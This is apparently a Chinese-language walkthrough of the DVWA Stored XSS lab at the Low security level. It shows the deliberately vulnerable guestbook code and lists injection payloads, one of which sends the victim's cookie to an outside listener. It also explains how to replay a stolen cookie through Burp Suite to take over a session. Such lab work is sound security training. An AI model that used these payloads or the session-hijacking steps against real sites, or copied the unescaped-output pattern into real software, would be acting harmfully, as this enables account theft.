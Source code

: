 # XSS (Stored) - Low

## View Source

```PHP
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

- [`trim()`](https://www.php.net/manual/zh/function.trim.php)
    - 去除字串首尾空白等字元
- [`stripslashes()`(https://www.php.net/manual/zh/function.stripslashes.php)
    - 去除反斜線 `\`

### View Page Source

```HTML
<form method="post" name="guestform">
    <table width="550" border="0" cellpadding="2" cellspacing="1">
        <tr>
            <td width="100">Name *</td>
            <td><input name="txtName" type="text" size="30" maxlength="10"></td>
        </tr>
        <tr>
            <td width="100">Message *</td>
            <td><textarea name="mtxMessage" cols="50" rows="3" maxlength="50"></textarea></td>
        </tr>
        <tr>
            <td width="100">&nbsp;</td>
            <td>
                <input name="btnSign" type="submit" value="Sign Guestbook" onclick="return validateGuestbookForm(this.form);" />
                <input name="btnClear" type="submit" value="Clear Guestbook" onClick="return confirmClearGuestbook();" />
            </td>
        </tr>
    </table>

</form>
```

- 前端有限制使用者輸入

### 資料庫查詢

1. `docker exec -it dvwa /bin/bash`
2. `vim /var/www/html/dvwa/includes/dvwaPage.inc.php`
- https://github.com/digininja/DVWA/blob/master/dvwa/includes/dvwaPage.inc.php#L552-L573

```PHP
function dvwaGuestbook() {
    $query  = "SELECT name, comment FROM guestbook";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query );

    $guestbook = '';

    while( $row = mysqli_fetch_row( $result ) ) {
        if( dvwaSecurityLevelGet() == 'impossible' ) {
            $name    = htmlspecialchars( $row[0] );
            $comment = htmlspecialchars( $row[1] );
        }
        else {
            $name    = $row[0];
            $comment = $row[1];
        }

        $guestbook .= "<div id=\"guestbook_comments\">Name: {$name}<br />" . "Message: {$comment}<br /></div>\n";
    }
    return $guestbook;
}
```

### 資料庫欄位限制

1. `docker exec -it dvwa /bin/bash`
2. `mysql`
3. `DESCRIBE dvwa.guestbook;`

```
+------------+----------------------+------+-----+---------+----------------+
| Field      | Type                 | Null | Key | Default | Extra          |
+------------+----------------------+------+-----+---------+----------------+
| comment_id | smallint(5) unsigned | NO   | PRI | NULL    | auto_increment |
| comment    | varchar(300)         | YES  |     | NULL    |                |
| name       | varchar(100)         | YES  |     | NULL    |                |
+------------+----------------------+------+-----+---------+----------------+
3 rows in set (0.00 sec)
```

- 有長度限制

## Code Review

- 將使用者輸入過濾特殊字元 (防止資料庫出錯和簡單的預防 *SQLi* 措施) 後寫進資料庫中
- 當任何使用者瀏覽到當前頁面時，就查詢資料庫將名稱和訊息回傳與顯示在網頁內容中

## Answer

- 在 *Name* 或 *Message* 注入都可以
- 如果 *Payload* 超過前端限制，用 *F12 DevTools* 修改即可

### Example

```
<script>alert(1)</script>
<script>alert(document.cookie)</script>
<script>window.open("http://0.0.0.0:8000/?cookie=" + document.cookie)</script>
```

- View Page Source 也看得到 (因為不像 DOM based 是動態產生)
- 到其他類別再點回 *XSS (Store)* 就會又跳出一次
```HTML
<div id="guestbook_comments">Name: test<br />Message: This is a test comment.<br /></div>
<div id="guestbook_comments">Name: CHA<br />Message: <script>alert(1)</script><br /></div>
```

- 資料庫中被寫進惡意語句
    - `SELECT name, comment FROM dvwa.guestbook;`
```
+------+--------------------------------------------------------------------------------+
| name | comment                                                                        |
+------+--------------------------------------------------------------------------------+
| test | This is a test comment.                                                        |
| CHA  | <script>alert(1)</script>                                                      |
| CHA  | <script>alert(1)</script>                                                      |
| CHA  | <script>window.open("http://0.0.0.0:8000/?cookie=" + document.cookie)</script> |
+------+--------------------------------------------------------------------------------+
4 rows in set (0.00 sec)
```

### Note

- 可以使用 *Burp Suite* 的 *Proxy* 來修改發送的 *request* 封包，將 *Cookie* 替換成透過 *XSS* 得到的受害者 *Cookie*，就能直接以受害者的身分使用網站服務，不用進行登入
- 如果是新版瀏覽器，可能會自動阻擋跳出新視窗，需要選擇 *Allow pop-ups for xxx*
- 可以點選 *Clear Guestbook* 按鈕來清空，否則每次都會跳出 `alert()` 有點煩 XD
